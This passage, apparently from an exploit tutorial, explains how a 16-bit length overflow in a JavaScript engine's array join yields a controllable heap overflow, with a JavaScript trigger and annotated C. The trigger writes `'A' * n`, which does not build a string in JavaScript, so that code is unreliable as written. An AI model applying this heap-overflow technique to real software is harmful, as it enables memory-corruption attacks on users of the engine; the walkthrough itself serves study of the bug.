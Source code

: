 ![](https://i.imgur.com/8fglQzT.png)

*`n` taking only the first 16 bits.*

Of course, this is an unrefined version of the bug. In an optimal case, we'd like this bug to allow us to choose two things:

- We want to control exactly how many bytes will be allocated, so we can choose which region of the heap will be used to service this allocation (more on this later). Just know for now, if we want two objects in memory to be adjacent to one another, we need their size to be very similar if not the same. This'll be important for choosing what objects we want to overflow in memory.
- We also want to control exactly how much we will overflow by, so we can selectively change different values on the heap without changing ones we don't want to change.

So, how do we do both of these things? Well, if we only have one element in the array, it's impossible. Before I tell you why it's impossible, try to figure it out yourself. I'll tell you why after you try it yourself.

This is because the only time we will ever get a heap overflow is if the length of `r` overflows `n`. But in order to get this integer overflow, `r` needs to be the maximum size of a 16 bit integer so it overflows `n`, meaning if we want an overflow, we can't really control the length of `r`. However, if we use two elements, we can do this.

Found a solution? Instead of explaining this in words, I'll let the code do the talking first.

```javascript
let allocation_size = 0x8
let overflow_content = 'OVERFLOWCONTENT!'
['A' * (0x10000 - (overflow_content.length - allocation_size)), overflow_content].join('');
```

Although this looks a little weird, i'll make more sense if I show you the C that's running the the background.

For the first element:

```c
// n will be 0xfff8, using our formula
n += strlen(r);
// k, iterator counter, will be 0 for the first element
if (k == 0) {
  // allocate a chunk of 0xfff7 since n starts off as 1
  out = js_malloc(J, n);
  // safely copy r to this chunk
  strcpy(out, r);
}
```

No bug exploitation for the first element, but that changes for the second element.

```c
// 0xfff8 + 16 = 0x10008, but n will take the first 16 bits so n = 8
n += strlen(r);

// k is not 0 so we go to else case
if (k == 0) {
  out = js_malloc(J, n);
  strcpy(out, r);
} else {
  // sep length is 0
  n += seplen;
  // realloc copies contents, so chunk is full
  out = js_realloc(J, out, n);
  // sep is our seperator, which is '', so no change
  strcat(out, sep);
  // append r to end of chunk
  strcat(out, r);
}
```
